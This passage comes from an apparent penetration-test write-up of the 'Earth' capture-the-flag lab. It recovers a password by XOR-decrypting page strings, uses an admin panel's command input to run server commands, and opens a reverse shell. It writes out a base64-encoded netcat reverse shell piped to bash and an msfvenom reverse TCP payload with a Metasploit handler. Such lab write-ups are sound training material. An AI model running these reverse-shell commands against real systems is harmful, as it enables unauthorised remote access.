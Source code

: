 Procedure:

1. Copy the encrypted strings from the `earth.local` landing page.
2. Copy the contents of `testdata.txt` (the XOR key).
3. Use **CyberChef**: `Input` → `XOR` operation with key set to contents of `testdata.txt`.
4. Result: plaintext containing a password (used with username `terra`).

Evidence: Attach CyberChef recipe screenshot and decrypted plaintext in Evidence section.

---

### 5.4 Gaining a Shell (via admin web panel)

Use credentials (e.g., `terra:<password>`) to log into `http://earth.local/admin`.

The admin UI contained a CLI-like command input which permitted running shell commands (or at least executing server-side commands that allowed us to interact with the filesystem).

Extracted files and enumerated directories:

```bash
# commands issued via admin CLI
cd /home; ls -al; pwd
ls /var/earth_web/
# discovered: user flag file in /var/earth_web/
```

To obtain an interactive shell, a reverse shell was established. Two approaches were used in the engagement:

**Netcat encoded command** (works when direct outbound execution is allowed or base64 decode is available):

1. On attacker (listener): `nc -lvnp 4444`
2. Prepare reverse shell command and encode in base64 on attacker:

   ```bash
   echo 'nc -e /bin/bash 192.168.10.10 4444' | base64
   ```
3. Paste base64 string into admin CLI on the target and run:

   ```bash
   echo 'PASTE_BASE64' | base64 -d | bash
   ```

Result: target connects back to attacker netcat listener and produces a shell (user: `apache`).

**Metasploit approach:** (alternative)

1. Create payload: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.10.10 LPORT=4444 -f elf > shell.elf`
2. Transfer by base64 or upload via admin interface and execute.
3. Set up `multi/handler` in Metasploit to catch the session.

Evidence: Attach netcat listener transcript and Metasploit handler logs.

---

### 5.5 Privilege Escalation to Root

